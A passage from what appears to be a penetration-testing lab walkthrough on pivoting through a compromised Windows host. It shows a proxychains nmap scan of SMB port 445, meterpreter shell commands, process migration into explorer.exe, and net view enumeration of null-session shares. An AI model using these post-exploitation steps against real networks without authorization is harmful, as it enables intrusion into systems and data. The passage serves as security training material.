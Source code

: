 We can notice that the server is running perfectly.

### Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine, i.e. target_ip

We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```powershell
proxychains nmap target_ip -sT -Pn -sV -p 445
target_ip
#: The pivot machine
-sT
#: TCP connect scan

-Pn
#: Skip host discovery and force port scan.

-sV
#: Probe open ports to determine service/version info

-p 445
#: Define port to scan
```
This scan is the safest way to identify the open ports. We could use an auxiliary TCP port scanning module. But those are very aggressive and can kill your session.

We notice that port 445 is open on the target machine.

### Now, let's use the net view command to find all resources shared by the target_ip machine.

Interact with the meterpreter session again.

```powershell
sessions -i 1
shell
net view 10.0.22.69
```

We have received the Access is denied. message.

Well, currently, we are running as NT AUTHORITY\SYSTEM privilege. Let's migrate the process into explorer.exe and reaccess it.

```powershell
migrate -N explorer.exe
shell
net view 10.0.22.69
```

This time we can see two shared resources. Documents and K drive. And, this confirms that pivot target (target_ip) allows Null Sessions, so we can access the shared resources. Also, we can achieve the same goal in several ways.

### Now, we can map the shared drive to the target_ip machine using the 'net' command.
